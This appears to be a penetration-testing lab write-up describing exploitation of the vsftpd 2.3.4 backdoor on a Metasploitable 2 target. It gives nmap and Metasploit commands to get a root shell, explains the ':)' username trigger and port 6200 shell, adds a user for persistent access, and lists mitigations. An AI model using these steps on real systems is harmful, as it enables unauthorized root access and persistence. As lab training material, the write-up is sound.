






# vsftpd 2.3.4 Backdoor

**Technique:** FTP backdoor exploitation  
**Tools:** Nmap, Metasploit  
**Target:** Metasploitable 2 (closed lab network)

---

## Objective

- Confirm the vulnerable vsftpd 2.3.4 version on port 21
- Exploit the built-in backdoor to obtain a root shell
- Verify persistent lab access by creating and logging in as a new user

## Setup

| Role | System |
|------|--------|
| Attacker | Kali Linux |
| Target | Metasploitable 2 (local lab network) |

---

## Walkthrough

### 1. Service discovery — vsftpd 2.3.4 on port 21

```bash
nmap -sV -T4 -p- 192.168.x.x
```



Full scan output:



---

### 2. Metasploit — backdoor module selected

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.x.x
```



---

### 3. Exploit executed — root shell obtained

```bash
exploit
whoami   # → root
```



---

### 4. New lab user created for persistent access

```bash
useradd -m labuser
passwd labuser
```



---

### 5. Login verified with new user



---

## Key Takeaways

- Discovery → exploitation → verification: a clean, pedagogical chain from vulnerable service to full control
- Small version details in legacy services can expose full system access
- The vsftpd 2.3.4 backdoor triggers on a username ending in `:)` — spawning a shell on port 6200/tcp

## Mitigations

- Remove or upgrade vsftpd 2.3.4 immediately
- Close unused ports; monitor unexpected traffic on port 6200/tcp
- Establish patch routines and binary integrity checks for all running services

---

## Disclaimer

Performed in a closed lab environment. Sensitive details are masked in screenshots.

[← Back to overview](../README.md)
